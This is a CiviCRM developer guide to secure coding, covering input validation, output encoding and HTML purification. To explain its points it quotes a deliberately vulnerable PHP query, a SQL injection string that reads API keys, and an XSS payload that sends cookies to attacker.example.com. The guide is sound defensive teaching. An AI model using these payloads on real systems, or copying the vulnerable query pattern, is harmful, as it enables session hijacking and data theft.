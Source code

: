 # Secure Coding Standards

## Introduction

CiviCRM maintains a number of standard practices which help ensure that CiviCRM is as secure as possible. This chapter will aim to help give developers guidance on the best way to write code for CiviCRM core and Extensions etc in a secure way. 

## Inputs and outputs

Like any large application, CiviCRM has many inputs and many outputs &mdash; and for adequate security, it must ensure that all data which flows from untrusted inputs to sensitive outputs receives *sanitizing* at some point along the way to protect against attacks.

![Inputs vs outputs diagram](/img/security-inputs-and-outputs.svg)

### Bad example

Consider the following PHP code:

```php
$contactId = $_GET['cid']; // Untrusted input
$sql = "
 SELECT display_name
 FROM civicrm_contact
 WHERE id = $contactID;
";
$query = CRM_Core_DAO::executeQuery($query); // Sensitive output
```

This is bad because because a user can send the following string for the `cid` parameter:

```text
0 UNION SELECT api_key FROM civicrm_contact WHERE id = 4
```

With this attack, the response page would display the API key (for any contact the attacker chooses) anywhere the page would normally display the contact's name. This is an information disclosure vulnerability.

!!! note
    You might think that an input like ``0; DROP TABLE `civicrm_contact` `` would present an [even more serious a vulnerability](https://xkcd.com/327/), but fortunately CiviCRM does not allow [query stacking](http://www.sqlinjection.net/stacked-queries/) which means `executeQuery()` can only execute one query at a time.

### An improvement using sanitizing

In order to fix this security vulnerability, we need to sanitize either the input or output (or both!) as follows:

```php
$contactId = CRM_Utils_Request::retrieve(
  'cid',
  'Positive' // <-- Input sanitizing
);
$sql = "
  SELECT display_name
  FROM civicrm_contact
  WHERE contact_id = %1;
";
$displayName = CRM_Core_DAO::executeQuery($query, array(
  1 => array($contactId, 'Integer'), // <-- Output sanitizing
));
```

Now, users will only be able to send integers in, and CiviCRM will only be able to send integers out. This is obviously a simplified example, but it illustrates the concepts of inputs, outputs, and sanitizing.


## Sanitization methods

Sanitizing (also sometimes generally called "**escaping**") refers the process of cleaning (or rejecting) data to protect against attacks.

### Validation

The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format.

Validation works well for data *inputs* which are of known (and simple) types, but can be much more difficult (and less effective) when used for *outputs* or complex data types.

Validation can also be used for *outputs*. For example, when sending data to MySQL in a query, it's good practice to validate that integers are actually integers.

### Encoding (aka "escaping") {:#encoding}

Encoding alters the untrusted data to suit a *specific output*.

For example, consider the following Smarty code:

```html
<div class="email">{$emailAddress}</div>
```

This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.

Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `"Foo Bar" <foo@example.org>`.

By *encoding* the data for HTML (e.g. by using [htmlentities()](http://php.net/manual/en/function.htmlentities.php)), we change `"Foo Bar" <foo@example.org>` to `&quot;Foo Bar&quot; &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.

!!! important
    Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.

### Purification

In rare cases such as user-editable rich text fields, CiviCRM cannot use validation or encoding to protect against attacks because the same characters used in attacks are also necessary for presentation. For these cases, CiviCRM uses a 3rd-party library called [HTML Purifier](http://htmlpurifier.org/) which employs sophisticated techniques to [remove XSS](http://htmlpurifier.org/live/smoketests/xssAttacks.php) from HTML strings.


## Sanitize input or output? {:#input-vs-output}

Now that we understand the difference between inputs and outputs, as well as the different sanitization techniques, the question arises: *at what point in my code should I sanitize? Input, or output?*

### In an ideal world

Ideally developers should do the following.

* For inputs:
    * **Validate data inputs** as strictly as possible.
* For outputs:
    * **Validate data outputs** as strictly as possible.
    * **Encode data outputs** whenever possible (which is most of the time).
    * Provide purification for outputs in rare cases when encoding is not possible (e.g. rich text).

!!! failure "In a misguided world"

    A common (and well meaning) mistake is to *encode inputs* instead of *encoding outputs*. For example, we might choose to store a string like `"Foo Bar" <foo@example.org>` in the database as `&quot;Foo Bar&quot; &lt;foo@example.org&gt;` because we know that, later on, our application will display it within an HTML page. This approach is bad because different outputs (e.g. HTML, SQL, shell) require different of encoding schemes. During input we have no reliable way of knowing which outputs the data will reach.

### CiviCRM's current strategy 

Unfortunately (at least as of 2017) CiviCRM exists in a somewhat uncomfortable limbo between the ideal world and the misguided world. In some places, CiviCRM sanitizes inputs with a partial encoding for HTML output, and then does not encode HTML the output. In other places, (e.g. in SQL queries) CiviCRM encodes outputs. In 2012 developers [identified the need to improve this situation](https://issues.civicrm.org/jira/browse/CRM-11532), but unfortunately it's not an easy task because shifting strategies has implications across the entire codebase. This doesn't mean CiviCRM is rife with security vulnerabilities &mdash; it just means that CiviCRM has not been *consistent* about how it approaches security.

CiviCRM's strategy is as follows:

* Inputs:
    1. Validate inputs when possible
    1. For rich text: purify inputs with `CRM_Utils_String::purifyHTML`.
    1. For non-rich text: *encode* inputs with `CRM_Utils_API_HTMLInputCoder::encodeInput()`
        * Note that this function only encodes `<` and `>`. It does *not* encode quotes.
* Outputs:
    1. HTML:
        * Do *not* perform HTML encoding for data between tags
        
            e.g. `<div>{$displayName}</div>`
            
        * *Do* perform HTML encoding for data within attributes
        
            e.g. `<a href="#" title="{$displayName|escape}">Foo</a>`
            
    1. SQL: validate and encode
    1. Shell: validate and encode


For AngularJS templates, developers should consult the AngularJS [$sanitize documentation](https://docs.angularjs.org/api/ngSanitize/service/$sanitize).

## Handling Request variables

Through the CiviCRM code base you will find that there are a number of times where CiviCRM takes variables passed to it through the URL e.g. `?cid=1234` or `?id=1234`. CiviCRM has put in place some inbuilt functions that help to ensure that no dangerous values are able to be passed through.

```php
$cid = CRM_Utils_Request::retrieve('cid', 'Positive', $this);
$id = CRM_Utils_Request::retrieve('id', 'Positive', $this, FALSE, NULL, 'GET');
$angPage = CRM_Utils_Request::retrieve('angPage', 'String', $this);
if (!preg_match(':^[a-zA-Z0-9\-_/]+$:', $angPage)) {
  CRM_Core_Error::fatal('Malformed return URL');
}
$backUrl = CRM_Utils_System::url('civicrm/a/#/' . $angPage);
```

What you will notice above is that one of the key things there is the usage of `CRM_Utils_Request::retrieve` This function takes in whatever request variables have been passed to the page or form etc, gets the key requested out of it, then ensures that it meets a specific type of value. The acceptable types can be found in [CRM_Utils_Type::validate](https://github.com/civicrm/civicrm-core/blob/60050425316acb3726305d1c34908074cde124c7/CRM/Utils/Type.php#L378). 

## Passing variables into SQL

Developers should ensure that whenever they pass variables into SQL statements that they do it in the proper standard. More information can be found in the [SQL Coding Standards](/standards/sql/).

## References

 - Escape on Input v Escape on output [Stack exchange](https://security.stackexchange.com/questions/95325/input-sanitization-vs-output-sanitization) [Stack Overflow](https://stackoverflow.com/questions/11253532/html-xss-escape-on-input-vs-output).
